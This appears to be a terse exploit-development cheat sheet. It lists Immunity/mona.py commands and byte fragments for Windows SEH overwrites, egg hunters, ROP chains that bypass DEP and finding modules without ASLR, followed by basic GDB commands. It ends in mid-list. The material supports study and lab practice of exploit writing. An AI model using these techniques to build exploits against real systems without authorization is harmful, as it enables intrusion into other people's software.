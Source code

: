 
	SEH - Structured Exception Handling
	# https://en.wikipedia.org/wiki/Microsoft-specific_exception_handling_mechanisms#SEH
	!mona suggest
	!mona nosafeseh
	nseh="\xeb\x06\x90\x90" (next seh chain)
	iseh= !pvefindaddr p1 -n -o -i (POP POP RETRUN or POPr32,POPr32,RETN)


	ROP (DEP)
	# https://en.wikipedia.org/wiki/Return-oriented_programming
	# https://en.wikipedia.org/wiki/Data_Execution_Prevention
	!mona modules
	!mona ropfunc -m *.dll -cpb "\x00\x09\x0a"
	!mona rop -m *.dll -cpb "\x00\x09\x0a" (auto suggest)


	ASLR - Address space layout randomization
	# https://en.wikipedia.org/wiki/Address_space_layout_randomization
	!mona noaslr


	EGG Hunter techniques
	# https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/
	# http://www.fuzzysecurity.com/tutorials/expDev/4.html
	!mona jmp -r esp
	!mona egg -t lxxl
	\xeb\xc4 (jump backward -60)
	buff=lxxllxxl+shell
	!mona egg -t 'w00t'


	GDB Debugger Commands
	# Setting Breakpoint
	break *_start
	# Execute Next Instruction
	next
	step
	n
	s
	# Continue Execution
	continue
	c
	# Data
	checking 'REGISTERS' and 'MEMORY'
	# Display Register Values: (Decimal,Binary,Hex)
	print /d –> Decimal